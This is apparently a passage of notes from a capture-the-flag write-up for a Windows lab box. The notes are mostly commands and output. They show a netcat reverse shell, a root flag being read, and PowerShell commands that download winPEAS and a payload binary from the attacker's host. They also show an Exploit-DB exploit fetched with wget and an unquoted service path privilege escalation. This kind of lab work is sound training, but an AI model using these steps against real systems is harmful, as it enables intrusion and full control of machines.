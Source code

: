 ```ps1
Stop-Service -Name 'AdvancedSystemCareService9'
```



```ps1
Start-Service -Name 'AdvancedSystemCareService9'
```


```sh
kali@kali:~/thm/steelmountain$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.9.28.128] from (UNKNOWN) [10.10.179.37] 63929
```
```
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
9af5f314f57607c00fd09803a587db80
```

## [Task 4] Access and Escalation Without Metasploit

```sh
export IP=10.10.179.37
```

https://www.exploit-db.com/exploits/39161


wget https://www.exploit-db.com/raw/39161 -O exploit.py

chmod +x exploit.py

^M: bad interpreter: No such file or directory

sed -i -e 's/\r$//' exploit.py





powershell -c Invoke-WebRequest -Uri http://10.9.28.128/winPEAS.bat -OutFile winPEAS.bat

powershell -c "Get-WmiObject win32_service | ?{$_.Name -like 'AdvancedSystemCareService9'} | select PathName"

cd C:\progra~2\IObit\

powershell -c Invoke-WebRequest -Uri http://10.9.28.128/Advanced.exe -OutFile Advanced.exe

powershell -c "Stop-Service -Name 'AdvancedSystemCareService9'"

powershell -c "Start-Service -Name 'AdvancedSystemCareService9'"

https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
